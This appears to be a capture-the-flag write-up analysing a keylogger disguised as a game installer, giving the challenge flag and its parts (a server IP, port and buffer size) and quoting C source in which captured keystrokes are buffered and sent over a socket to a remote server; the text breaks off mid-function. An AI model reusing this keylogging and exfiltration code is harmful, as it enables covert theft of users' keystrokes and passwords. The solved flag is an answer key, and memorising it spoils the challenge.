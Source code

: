 **commentedFlag:** {battle_pass}
```c
// Here
// {battle_pass}
// You're welcome
```

**ServerIp:** 10.10.10.45
```c
server.sin_addr.s_addr = inet_addr("10.10.10.45");
```

**Port Number:** 12355
```c
server.sin_port = htons(12355);
```

**bufferSize:** 26
```c
char buffer[26];
```


**flag: Securinets{Keylogger_{battle_pass}_10.10.10.45_12355_26}**

---

## Initial Analysis

For this task, we're provided with the malware executable with its source code. Upon executing it, an installation window appears. It's obviously a cover for the malware's main process.

![Setup cover](/assets/friendly/fortnite/Setup.png)


```c
#include <stdio.h>
#include <windows.h>
#include <winsock2.h>
#include <time.h>
```

Scanning the include lines for hints, one library stands out which is the **winsock2.h**. The main program is probably using it to create a socket for remote access for the attacker, possibly a **Remote Access Trojan** or a **Backdoor**...

```c
void logk(int vkCode) {
    WCHAR keyName[2] = {0};
    BYTE keyboardState[256] = {0};
    GetKeyboardState(keyboardState);

    HKL layout = GetKeyboardLayout(0);
    int result = ToUnicode(vkCode, 0, keyboardState, keyName, 2, 0);

    if (result > 0) {
        buffer[count++] = keyName[0];
    } else {
        switch (vkCode) {
            case VK_SPACE: buffer[count++] = ' '; break;
            case VK_TAB: buffer[count++] = '\t'; break;
            case VK_RETURN: buffer[count++] = '\n'; break;
            case VK_BACK: buffer[count++] = '\b'; break;
            default: buffer[count++] = '?'; break;
        }
    }

    if (count == 25) {
        buffer[25] = '\0';
        sendlog();
```